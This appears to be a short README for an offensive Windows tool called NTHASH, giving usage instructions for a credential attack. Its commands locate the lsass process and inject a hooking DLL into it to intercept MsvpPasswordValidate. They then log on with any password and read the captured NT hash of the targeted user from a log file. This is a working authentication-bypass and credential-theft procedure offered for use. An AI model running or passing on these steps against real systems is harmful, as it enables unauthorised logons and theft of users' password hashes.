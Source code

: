 Hook MsvpPasswordValidate, enter any password (correct or not) and intercept the NT hash of the user's password.

How to proceed:</br></br>

Lets retrieve the pid of lsass : nthash-win64 /enumproc | findstr lsass</br>
NTHASH-win64.exe /inject /pid:808 /binary:c:\temp\hook-win64.dll</br>
optionally, check that our dll as been injected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
test runas /user:Admin cmd OR log on remotely (provide any password) : you win!</br>
NTHASH-win64.exe /eject /pid:808 /binary:hook-win64.dll</br>
optionally, check that our dll as been ejected : NTHASH-win64.exe /enummod /pid:808 | findstr hook</br>
check c:\log.txt and obtain the (correct) hash of the user you targeted</br>
